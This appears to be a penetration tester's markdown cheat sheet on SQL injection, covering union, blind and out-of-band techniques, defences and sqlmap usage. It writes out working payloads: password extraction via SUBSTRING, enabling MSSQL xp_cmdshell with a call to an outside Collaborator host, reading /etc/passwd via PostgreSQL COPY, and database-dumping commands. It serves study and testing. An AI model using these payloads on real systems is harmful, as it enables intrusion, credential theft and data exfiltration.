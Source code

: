 # SQL Injection
- User supplied data is considered as part of the code/SQL query instead of just being considered as data.

## In-band (Classic) SQLi
- Attacker uses the same communication channel to perform the attack and get the results of the attack.
- Error based: force the db to generate an error to give more info about it Eg: the db version, the db query used, etc.
```
www.random.com/app.php?id='
```
- Union based: use the UNION operater to execute queries of your liking on the db. 
> NOTE: 
> The number of columns selected by both queries should be the same.
> The field types of both queries should be the same.
> The columns in the db should be known for the attacker to craft the UNION query.
```
# Finding the number of fields
# Type 1: Start by injecting NULL and then increase the number of NULLs till the query does not return an error
1337 UNION SELECT NULL; -- -
blabla' UNION SELECT NULL, NULL; -- -

# Type 2: Use ORDER BY: If the number of columns is 2, then at order by 3 it will return an error because the third column does not exist.
1337 ORDER BY 1 -- -
1337 ORDER BY 2 -- -
1337 ORDER BY 3 -- -

# If the SQL error is not visible (no response/empty page and you are not sure if it is blocked or erroring out)
# Use a valid id
1 UNION SELECT NULL; -- -
nybble04' UNION SELECT NULL; -- -

# To find the type of the field, substitute NULL with different data types.
```

### Example:

To find the column names of the people table (see [Try Hack Me Burp Repeater](https://tryhackme.com/module/learn-burp-suite))
```
# This will return only the first row of the output, so you will only see one column name
' UNION SELECT column_name, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name="people"

# To see all rows of the output use group_concat
' UNION SELECT group_concat(column_name), NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name="people"
```

## Inferential (Blind) SQLi
- Attacker can't see the actual results of their query, but they can use other inferential parameters
- Boolean: see True/False results.
```
# Send an input that you know is accepted/True
' and 1=1

# Send an input that you know is not accepted/False
' and 1=2

# Observe the behaviour/response of the application for each input.
Eg: True -> "Success" ; False -> "Try again"
```

### Example:
- We can bruteforce the password using SUBSTRING(string, start_index, no_chars_to_extract).
```
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 1, 1) ='a'    # check first char is a
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 1, 1) ='b'    # check first char is b
                                                    ... ... ...
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 2, 1) ='a'    # check second char is a
```
- Time: observe the time taken for query completion.

## Out-of-Band SQLi
- Attacker can't use the same channel and has to use a different network connection to make the attack. Eg: DNS or HTTP request.
> We need to know the type of database.
> We need to know if certain functions are enabled or can be enabled in the database.
- MSSQL [xp_cmdshell RCE](https://medium.com/@alokkumar0200/owning-a-machine-using-xp-cmdshell-via-sql-injection-manual-approach-a380a5e2a340)
```
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1-- -
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1-- -
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -

admin' UNION SELECT 1,2,3,4,5; EXEC xp_cmdshell 'ping <collab_url>.burpcollaborator.net'-- -
```
- PostgreSQL [9.3 RCE using COPY](https://www.exploit-db.com/exploits/50847) , [reading files](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)
```
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;
```

## Defences
**Primary Defenses**
1. Prepared statements (Primary - Mandatory)
- Java
```java
String custname = request.getParameter("customerName");
String query = "SELECT account_balance FROM user_data WHERE user_name = ?";
PreparedStatement pstms = connection.prepareStatement (query);
pstms.setString(1, custname);
ResultSet results = pstmt.executeQuery();
```
- PHP
```php
$custname = $_GET["customerName"];
$stmt = $conn->prepare("SELECT account_balance FROM user_data WHERE user_name = ?");
$stmt->bind_param("s", $custname);                                                    # s is the type of the parameters passed
$stmt->execute();
```
2. Stored Procedures (Primary - Secondary)
3. Whitelist input validation: allow only some characters in the field value (Primary - Secondary)
4. Escape user supplied inputs (Primary - Mandatory)

**Additional Defenses (good to have)**
1. Least privilege: Do not run the data as root, run with least privileges (Additional - defence in depth)
2. Disable unnecessary funtions: Prevents OOB attacks (Additional - defence in depth)
3. CIS Benchmark Audits (Additional - defence in depth)
4. Apply db patches (Additional - defence in depth)

## SQL Map
Test if GET param is vulnerable
```
sqlmap –u <URL> -p <injection parameter> [options]
```
Test if POST param is vulnerable
```
Intercept request in Burp
Save raw form of request to a file
sqlmap –r <request file> -p parameter [options]
```

> If the previous two queries find that the target request is vulnerable to SQLi, we can proceed to dump information from the database using the commands below.

Extract db banner
```
sqlmap -u <target> --banner <other options>
```
Extract users
```
sqlmap -u <target> --users <other options>
```
Check if pwned user is an administrator
```
sqlmap -u <target> --is-dba <other options>
```
Extract databases
```
sqlmap -u <target> --dbs <other options>
```
Extract tables
```
sqlmap -u <target> -D <database> --tables <other options>
```
See columns of the table
```
sqlmap -u <target> -D <database> -T <tables, comma separated list> --columns <other options>
```
Get the values of the table columns (dump table)
```
sqlmap -u <target> -D <database> -T <table> -C <columns list> --dump <other options>
```
Test for blind injection
```
sqlmap -u <target> --string <true_string / false_string>
```

**Resources**
1. [Rana Khalil](https://www.youtube.com/watch?v=1nJgupaUPEQ&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf)
2. [Payloads for different databases](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
